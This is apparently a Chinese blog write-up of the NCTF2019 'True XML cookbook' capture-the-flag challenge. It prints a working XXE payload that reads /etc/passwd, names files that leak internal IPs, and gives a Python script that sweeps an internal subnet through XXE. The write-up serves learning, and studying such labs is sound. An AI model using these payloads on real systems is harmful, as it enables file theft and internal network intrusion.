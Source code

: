 ```yaml
---
title: '[NCTF2019]True XML cookbook'
date: 2024-06-08 17:02:53
tags: xxe
categories: 刷题笔记
---
```


## [NCTF2019]True XML cookbook（xxe漏洞&xxe探测内网）

我们查看源码，发现依旧是个xxe漏洞

<!-- more -->

![image-20240602200728849](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022007911.png)

抓包添加外部注入实体，尝试读取/etc/passwd，可以读到东西

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<user><username>
&xxe;
</username><password>
1
</password></user>
```

![image-20240602200931492](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022009689.png)

但当我们读取flag时，却报错了，大概是没有这个文件

那么我们可以想到xxe还有个知识点就是**探针内网**

所以第一步要先知道内网的ip

```
/etc/hosts,/proc/net/arp,/proc/net/fib_trie
```

这三个文件里存在内网的ip

![image-20240602201201797](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022012936.png)

我们读取/etc/hosts得到IP地址

```
10.244.80.129
```

我们访问这个IP地址，出现报错，说明flag并不在这一台主机上

![image-20240602201355325](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022013386.png)

我们对ip进行爆破

![image-20240602201826489](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022018645.png)

等了好久得到flag（bushi）

![img](https://img-blog.csdnimg.cn/direct/f39b501ad39145e0ad9d35eb815a7973.png)

也可用脚本爆破（这个可行）

```
import requests as res
url="http://ec34ede1-457e-4838-9c55-3f605758a2a0.node5.buuoj.cn:81/doLogin.php"
rawPayload='<?xml version="1.0"?>'\
         '<!DOCTYPE user ['\
         '<!ENTITY payload1 SYSTEM "http://10.244.80.{}">'\
         ']>'\
         '<user>'\
         '<username>'\
         '&payload1;'\
         '</username>'\
         '<password>'\
         '23'\
         '</password>'\
         '</user>'
for i in range(1,256):
    payload=rawPayload.format(i)
    #payload=rawPayload
    print(str("#{} =>").format(i),end='')
    try:
        resp=res.post(url,data=payload,timeout=0.5)
    except:
        continue
    else:
        print(resp.text,end='')
    finally:
        print('')
```
